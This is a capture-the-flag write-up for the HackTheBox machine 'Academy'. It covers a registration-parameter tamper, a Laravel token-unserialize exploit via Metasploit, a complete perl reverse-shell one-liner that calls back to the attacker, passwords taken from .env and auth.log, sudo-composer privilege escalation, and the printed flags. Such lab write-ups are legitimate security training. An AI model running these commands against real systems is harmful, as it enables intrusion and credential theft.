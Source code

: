 academy

# Academy HTB [ 10.10.10.215 ]


## Foothold

- Tamper the **uid** parameter from 0 to 1 by intercepting user registration request with **burpsuite**.

- Access the  [Admin Page](http://academy.htb/admin.php) with registered credentials.


## User

- Access http://dev-staging-01.academy.htb/ to find out the **APP_KEY** in the logs.

- Use msf exploit to get foothold in the target system. (unix/http/laravel_token_unserialize_exec )
- Use the following command to get interactive shell using perl.


```bash 
perl -e 'use Socket;$i="10.10.14.205";$p=42522;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


- Once you get the shell check the .env file for sensitive information.

`/var/www/html/academy/.env mySup3rP4s5w0rd!!`

	The possible combination for the password found in the .env file is cry0l1t3:mySup3rP4s5w0rd!!

```bash
ssh cry0l1t3@academy.htb : mySup3rP4s5w0rd!!
```

` user.txt 78bcd0814ff1ad17723acc2d82ca7f72 `

## Privilege Escalation

- Use the linpeas and check in the /var/log/auth.log

`/var/log/auth.log su - "mrb3n_Ac@d3my!" `

- We know that there is an user name mrb3n, use this cerdential against that user.

	mrb3n:mrb3n_Ac@d3my!

```bash
su mrb3n
Password:
sudo -l
Password:
(ALL) /usr/bin/composer

```
- Now we know that the user `mrb3n` can run the composer as root user. Let's use [GTFO BINS](https://gtfobins.github.io/gtfobins/composer/) to escalate the privileges.

### Gameover

```bash
whoami
uid=0(root) gid=0(root) groups=0(root)
cd /root 
cat root.txt
ccc19bd403b36d44b67196773f833075
```

